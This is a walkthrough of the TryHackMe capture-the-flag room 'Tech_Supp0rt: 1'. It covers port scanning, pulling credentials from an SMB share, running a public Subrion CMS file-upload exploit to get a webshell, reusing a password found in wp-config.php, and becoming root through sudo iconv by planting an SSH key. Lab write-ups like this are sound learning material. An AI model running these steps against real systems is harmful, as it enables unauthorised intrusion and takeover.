








# [Tech_Supp0rt: 1](https://tryhackme.com/r/room/techsupp0rt1)

## Enumeration

We start enumarating the open port with **nmap**.

```shell
$ sudo nmap -p- --open --min-rate 2000 -n -Pn -sS 10.10.232.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-19 08:06 -05
Nmap scan report for 10.10.232.95
Host is up (0.29s latency).
Not shown: 64495 closed tcp ports (reset), 1036 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 40.66 seconds
```

We found four services, first we will analyze the webise.



We only fount the default Apache page, we will fuzz with **gobuster** to find something else.

```shell
$ gobuster dir  -u http://10.10.232.95/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.232.95/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 11321]
/phpinfo.php          (Status: 200) [Size: 94930]
/server-status        (Status: 403) [Size: 277]
/test                 (Status: 301) [Size: 311] [--> http://10.10.232.95/test/]
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.232.95/wordpress/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

We found the *test* and *wordpress* directories.

Checking we found that te test is only a static page, we will analyze the worpress later.





On the wordpress page we didn't found anything to exploit, and reviewing its base structure on [github](https://github.com/WordPress/WordPress), only the login panel seems interesting to us, but with htat version of wordpress we do not directly see a way to gain access to the machine.



We will analyze the services `139/tcp open  netbios-ssn` and `445/tcp open  microsoft-ds`.

```shell
$ smbmap -H 10.10.232.95
[+] Guest session   	IP: 10.10.232.95:445	Name: 10.10.232.95                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	websvr                                            	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (TechSupport server (Samba, Ubuntu))
$smbclient //10.10.232.95/websvr -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May 29 02:17:38 2021
  ..                                  D        0  Sat May 29 02:03:47 2021
  enter.txt                           N      273  Sat May 29 02:17:38 2021

		8460484 blocks of size 1024. 5699544 blocks available
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> quit
$ cat enter.txt 
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesnt work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

We find a new directory and some crendential, we reverse the password woth [dcode](https://www.dcode.fr/identification-chiffrement) and the credentials are `admin:Scam2021`.

If we try the credentials in the wordpress login they will not work.


We will analyze the directory */subrion*.



If we try to enter to http://10.10.232.95/subrion it redirects to http://10.0.2.15/subrion/subrion/, but the *robots.txt* show us other directories.



We find a login in the panel directory and trying with the credentials found we enter.



Since we can see the version of the CMS below we will check for explioits.



```shell
$ searchsploit Subrion CMS 4.2.1
------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
Subrion CMS 4.2.1 - 'avatar[path]' XSS                                  | php/webapps/49346.txt
Subrion CMS 4.2.1 - Arbitrary File Upload                               | php/webapps/49876.py
Subrion CMS 4.2.1 - Cross Site Request Forgery (CSRF) (Add Amin)        | php/webapps/50737.txt
Subrion CMS 4.2.1 - Cross-Site Scripting                                | php/webapps/45150.txt
Subrion CMS 4.2.1 - Stored Cross-Site Scripting (XSS)                   | php/webapps/51110.txt
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
$ searchsploit -p 49876
  Exploit: Subrion CMS 4.2.1 - Arbitrary File Upload
      URL: https://www.exploit-db.com/exploits/49876
     Path: /usr/share/exploitdb/exploits/php/webapps/49876.py
    Codes: CVE-2018-19422
 Verified: False
File Type: Python script, ASCII text executable, with very long lines (956)
Copied EDB-ID #49876's path to the clipboard
```

We found a *Arbitrary File Upload* where only need the url, user and passowd to get a command execution.

```shell
$ cp /usr/share/exploitdb/exploits/php/webapps/49876.py .
$ python3 49876.py -u http://10.10.232.95/subrion/panel/ -l admin -p Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.232.95/subrion/panel/
[+] Success!
[+] Got CSRF token: s08Y1ZgLqriHsTNV0qdO4TGaawtbL1PwGMTJrs9K
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: dbrlmvapjqxjmkj

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.232.95/subrion/panel/uploads/dbrlmvapjqxjmkj.phar 

$ whoami
www-data

$ cat /etc/passwd | grep -P "sh$"
root:x:0:0:root:/root:/bin/bash
scamsite:x:1000:1000:scammer,,,:/home/scamsite:/bin/bash
```

Most likely we need to go to the scamsite user first and then get to root.

```shell
$ ls -al /var/www/html/wordpress
total 220
drwxr-xr-x  5 www-data www-data  4096 May 29  2021 .
drwxr-xr-x  5 root     root      4096 May 29  2021 ..
-rw-r--r--  1 www-data www-data   543 May 29  2021 .htaccess
-rwxr-xr-x  1 www-data www-data   405 Feb  6  2020 index.php
-rwxr-xr-x  1 www-data www-data 19915 Jan  1  2021 license.txt
-rwxr-xr-x  1 www-data www-data  7345 Dec 30  2020 readme.html
-rwxr-xr-x  1 www-data www-data  7165 Jan 21  2021 wp-activate.php
drwxr-xr-x  9 www-data www-data  4096 May 13  2021 wp-admin
-rwxr-xr-x  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php
-rwxr-xr-x  1 www-data www-data  2328 Feb 17  2021 wp-comments-post.php
-rwxr-xr-x  1 www-data www-data  2992 May 29  2021 wp-config.php
drwxr-xr-x  6 www-data www-data  4096 May 29  2021 wp-content
-rwxr-xr-x  1 www-data www-data  3939 Jul 31  2020 wp-cron.php
...

$ cat /var/www/html/wordpress/wp-config.php | grep pass -A 1
/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
```

After reviewing the wordpress configuration we found some credentials, we tried and managed to connect to the scamsite user.

```shell
$ ssh scamsite@10.10.232.95
The authenticity of host '10.10.232.95 (10.10.232.95)' can't be established.
ED25519 key fingerprint is SHA256:J/HR9GKX4ReRvs4I9fnMwmJrOTL5B3skZ4owxwxWoyM.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:9: [hashed name]
    ~/.ssh/known_hosts:10: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.232.95' (ED25519) to the list of known hosts.
scamsite@10.10.232.95's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


120 packages can be updated.
88 updates are security updates.


Last login: Fri May 28 23:30:20 2021
scamsite@TechSupport:~$ pwd
/home/scamsite
```

Now we are looking for a way to become the root user. We list user privileges.

```shell
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

Searching in **gtfobins** and we can read and write files as root. We can read the falg with:

```shell
scamsite@TechSupport:~$ LFILE=/root/root.txt
scamsite@TechSupport:~$ sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
...
```

Since we can write files as root general an id_rsa and we will enter it in its directory as an authorized key.

We generate an id_rsa key on our local machine.

```shell
$ pwd
/tmp/id_rsa
$ touch id_rsa
$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/martin/.ssh/id_rsa): /tmp/id_rsa/id_rsa
/tmp/id_rsa/id_rsa already exists.
Overwrite (y/n)? y
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /tmp/id_rsa/id_rsa
Your public key has been saved in /tmp/id_rsa/id_rsa.pub
The key fingerprint is:
SHA256:dz5sJFcrEmrM0fCmChH+qUjWu4WhR74n/ZyVel1o8rw martin@parrot
The key s randomart image is:
+---[RSA 3072]----+
|    .   .        |
|   . .   +       |
|    o   . =   .  |
|   . o + = . . . |
|  o = o S + =..  |
| o = * o ..Xo..  |
|  o *.o   o*=.   |
|   ..+o. +..+.   |
|    oo .=.  E.   |
+----[SHA256]-----+
$ ls -al
total 8
drwxr-xr-x 1 martin martin   32 Apr 19 09:43 .
drwxrwxrwt 1 root   root    958 Apr 19 09:42 ..
-rw-r--r-- 1 martin martin 2602 Apr 19 09:43 id_rsa
-rw-r--r-- 1 martin martin  567 Apr 19 09:43 id_rsa.pub
```

We place the private key in the root directory of the machine with an authorized key.

```shell
scamsite@TechSupport:~$ LFILE=/root/.ssh/authorized_keys
scamsite@TechSupport:~$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCiG/ucq1JEGYB2Etg6m2hwNoUjKaR6zRbCeKXuqCjsNLjLaXMnZeTky6riqmXMaf6II/UmIzvKB6VjTJxQaXknmCqmC0gZtz8/IPlPHLOZNWzwYfFI3MKz9DCTaU/pEiaI3lwONQctLv/JdeNWkqzmbBcGgECbujPIQUkm7/00MWt8gUNxsc8MaIzqce9zdtS11QpI4o5MDIZiljB+LdCpuELAuKjeD4QSeqgFE31Fm0rLwOHsPb+BaEKl9SIcGUbA9RKUru1uFSJlcEQfec4rMBlcA+Qn2BWJvTUJoAJA/WtTDhORKoa0a/QoGhW22C9+KoKAVgQpZv0MVDFCPFMOXiLBQo8y2TLZqJ20u0y7j0nEgcsCAIWU2jgMXDz5xDQYSHaagsEUa1dHORvODs62cZD5TPVyYG+coVb9FbSwdMFnLvwIAbxOXISMMAonIk+ofzMjJFTrfuMwzp6XyllpWLL9hGwn1Hb9ICKAeo6/yb8/uXWIHU1yqF4kkwckqOU= martin@parrot" | sudo iconv -f 8859_1 -t 8859_1 -o "$LFILE"
```

We set the appropriate permissions to the key and connect.

```shell
$ chmod 600 id_rsa
$ ssh -i id_rsa root@10.10.232.95
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


120 packages can be updated.
88 updates are security updates.


Last login: Fri Apr 19 20:23:25 2024 from 10.8.100.192
root@TechSupport:~# pwd
/root
```

We are root.
